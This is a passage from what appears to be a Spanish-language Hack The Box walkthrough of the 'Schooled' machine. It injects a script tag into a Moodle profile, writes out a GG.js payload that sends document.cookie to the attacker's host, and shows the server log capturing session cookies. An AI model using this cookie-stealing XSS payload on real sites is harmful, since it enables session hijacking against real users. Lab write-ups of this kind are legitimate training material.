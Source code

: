 - Como es un XSS <https://book.hacktricks.xyz/es/pentesting-web/xss-cross-site-scripting> vamos a insertar una etiqueta para ver si obtenemos una petición a nuestro servidor.

```bash
<script src="http://10.10.14.13/GG.js"></script>
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/schooled/10.png">
</p>

- Si le damos a `Update Profile` obtenemos la petición.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.13 - - [10/Oct/2024 18:16:00] code 404, message File not found
10.10.14.13 - - [10/Oct/2024 18:16:00] "GET /GG.js HTTP/1.1" 404 -
10.10.10.234 - - [10/Oct/2024 18:16:10] code 404, message File not found
10.10.10.234 - - [10/Oct/2024 18:16:10] "GET /GG.js HTTP/1.1" 404 -
```

- Con esta vulnerabilidad podemos robar Cookies de sesión podemos hacer un `.js` que haga un `request` de la `cookie`.

```bash
❯ cat GG.js
var request = new XMLHttpRequest();
request.open('GET', 'http://10.10.14.13/?cookie=' + document.cookie);
request.send();
```

- Vamos a volver a inyectar la misma etiqueta para ver si nos llega una `Cookie`.

```bash
 python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.234 - - [10/Oct/2024 18:22:23] "GET /GG.js HTTP/1.1" 200 -
10.10.10.234 - - [10/Oct/2024 18:22:23] "GET /?cookie=MoodleSession=f0f3evpeu3u7bmj1ves48hfrt4 HTTP/1.1" 200 -
10.10.14.13 - - [10/Oct/2024 18:22:25] "GET /GG.js HTTP/1.1" 200 -
10.10.14.13 - - [10/Oct/2024 18:22:25] "GET /?cookie=MoodleSession=hpo7nmn5ui79m0cfqdo14akfgi HTTP/1.1" 200 -
```
